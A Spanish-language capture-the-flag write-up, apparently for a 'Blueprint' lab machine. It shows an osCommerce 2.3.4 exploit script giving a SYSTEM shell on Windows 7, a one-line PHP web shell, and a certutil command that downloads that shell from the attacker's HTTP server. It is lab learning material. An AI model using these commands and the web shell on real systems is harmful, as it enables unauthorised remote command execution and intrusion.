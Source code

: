 ## Explotamos la falla de seguridad

  Como vemos al ejecutar exploit este nos devuelve una shell en la cual ejecutamos comandos con permisos de administrador del equipo windows. 
  Datos que nos podrian interesar de cara al futuro.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/script]
    └─# python3 50128.py http://10.10.5.46:8080/oscommerce-2.3.4/catalog
    [*] Install directory still available, the host likely vulnerable to the exploit.
    [*] Testing injecting system command to test vulnerability
    User: nt authority\system
    
    RCE_SHELL$ whoami
    nt authority\system

    RCE_SHELL$ systeminfo
    Host Name:                 BLUEPRINT
    OS Name:                   Microsoft Windows 7 Home Basic 
    OS Version:                6.1.7601 Service Pack 1 Build 7601
    System Type:               X86-based PC

El tipo de shell que nos entrega este exploit no nos permite mucha movilidad.

## Conseguimos un RCE

Ya que somos admin del equipo podrimos descargar con la ayuda del comando certutil un fichero en php que nos permita ejecutar comandos a traves de la web(URL), para posteriormente ejecutar una reverse shell y poder trabajar comodamente.  

Info comando certutil  -> https://tecnonucleous.com/2018/04/05/certutil-exe-podria-permitir-que-los-atacantes-descarguen-malware-mientras-pasan-por-alto-el-antivirus/

Creamos el fichero con el siguiente codigo php, el cual nos permite ejecutar comandos a traves de la url.

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/script]
        └─# cat rce.php                    
        <?php
        echo exec($_GET['cmd']);
        ?>

Montamos un servidor http para compartir nuestro fichero rce.php

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/script]
        └─# python3 -m http.server 80 
        Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Nos descargamos el fichero desde la maquina windows con certutil

        RCE_SHELL$ certutil -urlcache -f http://10.8.64.232/rce.php rce.php
        ****  Online  ****
        CertUtil: -URLCache command completed successfully.
        
        RCE_SHELL$ dir
         Volume in drive C has no label.
         Volume Serial Number is 14AF-C52C
        
